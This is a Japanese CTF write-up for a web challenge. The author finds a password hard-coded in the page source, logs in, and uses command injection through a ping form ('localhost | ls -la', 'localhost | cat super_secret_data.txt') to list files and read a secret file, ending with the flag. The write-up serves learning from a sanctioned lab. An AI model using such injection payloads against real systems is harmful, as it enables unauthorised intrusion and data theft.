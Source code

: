 # Writeup

http://chal.cybersecurityrumble.de:3812/ にアクセスする。

![](img/2020-10-31-13-38-21.png)

ページのソースを見るとパスワードが直書きされている。

![](img/2020-10-31-13-48-18.png)

Passwordに`rootpw1337`と入力しログイン。

ログインに成功した後、左側の[Debugging] メニューからpingを送信できる画面が表示される。試しに`localhost`と入れると結果が返ってくる。

![](img/2020-10-31-14-38-26.png)

`localhost | echo 'Hello'`と入力すると`Hello`と返ってくるのでどうやらコマンドインジェクションが通用しそうだと推測。

* [タイガーチームサービス/DEF CON CTF Qualsにチャレンジ！](https://www.tiger1997.jp/report/activity/securityreport_20140523.html)

    * pingでのOSコマンドインジェクション(類似問題)

![](img/2020-10-31-14-43-39.png)

`ls -la` でカレントディレクトリにあるファイルを調べる。

```bash
localhost | ls -la

total 32
drwxr-xr-x 1 root root 4096 Oct 30 18:39 .
drwxr-xr-x 1 root root 4096 Oct 30 18:35 ..
-rw-r--r-- 1 root root   16 Oct 15 12:49 requirements.txt
drwxr-xr-x 3 root root 4096 Oct 15 12:49 static
-rw-r--r-- 1 root root   85 Oct 15 12:49 super_secret_data.txt
drwxr-xr-x 2 root root 4096 Oct 15 12:49 templates
-rw-r--r-- 1 root root 1070 Oct 15 12:49 webapp.py
-rw-r--r-- 1 root root   23 Oct 15 12:49 wsgi.py
```

`super_secret_data.txt`の中身を`cat`で見る。

```bash
localhost | cat super_secret_data.txt
```

<!-- CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225} -->